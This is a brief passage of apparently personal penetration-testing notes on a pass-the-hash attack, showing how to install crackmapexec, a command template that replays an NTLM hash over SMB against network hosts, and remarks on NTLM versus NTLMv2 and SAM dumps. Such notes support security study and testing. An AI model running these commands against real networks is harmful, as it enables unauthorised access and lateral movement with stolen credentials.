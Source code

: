 To perform this we need **the second half** of the hash that we have discovered.

### Installing crackmapexec
```sh
sudo apt install crackmapexec
```

To perform this we need to get start crackmapexec and run the following command

```sh
crackmapexec smb <ip_address> -u "<user_name>" -H <hash> --local-auth
```

This will pass the hash around the network, if there is a green plus sign means that it has worked. This can also provide false positives.

Note: NTLMv2 cannot be passed around while NTLM can be passed around.


### NTLM vs NTLMv2
NTLM are local hashes when we dump a SAM from local administrators while NTLMv2 are used on domains.